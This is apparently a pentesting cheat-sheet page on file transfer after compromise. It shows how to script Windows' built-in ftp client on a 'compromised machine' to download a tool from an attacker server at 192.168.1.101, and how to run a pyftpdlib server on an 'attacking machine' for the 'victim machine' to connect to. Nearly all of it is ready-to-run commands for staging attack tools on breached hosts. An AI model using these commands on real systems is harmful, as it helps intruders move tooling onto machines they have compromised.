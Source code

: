 # ftp \(Built into Windows\)

## First Method

* on the compromised machine we echo out the following commands into a file

```bash
echo open 192.168.1.101 21 > ftp.txt
echo user asshat >> ftp.txt
echo secretPass >> ftp.txt
echo bin >> ftp.txt
echo get wget.ext >> ftp.txt
echo bye >> ftp.txt
```

* then run this command

```bash
# -s:filename : Specifies a text file containing FTP commands; the
                # commands will automatically run after FTP starts
# -v : Suppresses display of remote server responses
# -n : Suppresses auto-login upon initial connection
ftp -v -n -s:ftp.txt
```

* a ftp-server configured with the user asshat and the password secretPass is needed

## Second Method

* on the attacking Linux machine run

```bash
pip install pyftpdlib
```

* then run this command on Attacking Machine

```bash
python -m pyftpdlib -p 21 w
```

* run on Victim Machine

```bash
ftp 10.10.10.10
```

